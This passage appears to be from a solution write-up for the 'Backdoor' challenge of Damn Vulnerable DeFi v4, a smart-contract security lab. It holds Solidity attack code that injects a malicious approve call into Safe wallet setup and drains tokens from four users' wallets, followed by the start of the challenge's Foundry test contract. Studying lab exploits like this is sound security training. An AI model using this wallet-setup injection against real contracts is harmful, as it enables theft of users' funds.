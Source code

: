 ```solidity
        recovery = _recovery;
        users = _users;

        maliciousApprove = address(new MaliciousApprove());

        address[] memory owners = new address[](1);
        address wallet;

        for (uint256 i; i < 4; ++i) {
            owners[0] = users[i];

            // craft a calldata to call maliciousApprove during Safe wallet setup
            bytes memory data = abi.encodeCall(
                Safe.setup,
                (
                    owners,
                    1,
                    maliciousApprove, // the address must be a contract, or the safe wallet setup will revert.
                    abi.encodeCall(MaliciousApprove.approve, (token, address(this))),
                    address(0),
                    address(0),
                    0,
                    payable(0)
                )
            );

            wallet = address(
                SafeProxyFactory(walletFactory).createProxyWithCallback(
                    address(singletonCopy), data, i, WalletRegistry(walletRegistry)
                )
            );

            IERC20(token).transferFrom(wallet, recovery, 10 ether);
        }
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {Safe} from "@safe-global/safe-smart-account/contracts/Safe.sol";
import {SafeProxyFactory} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxyFactory.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {WalletRegistry} from "../../src/backdoor/WalletRegistry.sol";
import {AttackWalletRegistry} from "../../src/backdoor/AttackWalletRegistry.sol";

contract BackdoorChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");
    address[] users = [makeAddr("alice"), makeAddr("bob"), makeAddr("charlie"), makeAddr("david")];

    uint256 constant AMOUNT_TOKENS_DISTRIBUTED = 40e18;

    DamnValuableToken token;
```